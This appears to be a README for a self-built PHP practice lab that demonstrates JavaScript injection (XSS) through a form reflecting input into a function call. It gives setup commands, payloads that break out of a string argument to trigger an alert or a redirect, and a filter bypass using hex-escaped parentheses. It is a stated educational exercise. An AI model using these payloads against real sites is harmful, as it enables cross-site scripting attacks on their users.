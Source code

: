 # JavaScript-Injection

Today I build an php form that uses the fact that JavaScript functions can be called with more parameters than the function actually has.  


## Setup
You need to install php for this to work. It doesn't really matter how, however I recomend usind brew:
```
$ brew install php
```
After installing php, you will have to start the server:
```php
php -S 0.0.0.0:[port]
```
You can now connect to http://localhost:[port] to play around.

## Injection

Looking at the developer tools (Console & ) in your browser you can first try to give the function 3 parameters by inserting
```
","
```
You can see in the elements-section of your browser that the function has 3 elements now.

When can now use this feature to try thing like an alert:
```
",location="javascript:alert(1)
```
or alternativly even a redirect:
```
",window.location="https://twitter.com/thisphilipp
```

### Injection without / ( [ ] ) '

To try this, you will need to uncomment line 8:
```php
$xss = preg_replace('/([\(\)`\'])/','',$xss);
```
This will replace / ( [ ] ) ' with an empty char so we don't cheat ourselves.

Fortunately we can use ASCII-Codes for the () which work the same way but won't get replaced.

```
( => \x28 
) => \x29
```
Using that, we can now use our alert-injection:
```
",location="javascript:alert\x281\x29
```

## Important to add
I know that most xss forms have measures against these kind of injections and this is purely for educational purposes.

## Credits

This was not my idea, but much rather I tried understanding a [tweet](https://twitter.com/Rhynorater/status/1696862832841916679) by Justin Gardner and some things I learned during a Web Engineering Class at my University. 
